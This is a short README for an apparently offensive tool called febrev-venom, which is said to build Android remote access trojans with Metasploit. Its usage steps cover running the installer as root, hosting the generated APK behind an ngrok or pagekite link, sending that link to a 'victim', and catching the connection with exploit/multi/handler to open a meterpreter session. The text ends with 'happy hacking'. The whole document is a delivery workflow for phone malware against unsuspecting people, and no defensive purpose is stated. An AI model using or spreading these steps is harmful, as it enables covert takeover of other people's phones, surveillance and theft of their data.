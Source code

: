 # febrev-venom
FEBREV venom is a tool to create android RATs through metasploit and send it to the victim via a link url
*must run as root
*must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   
   **come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 **use the ngrok link + /<your_apk.apk> or pagekite link + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
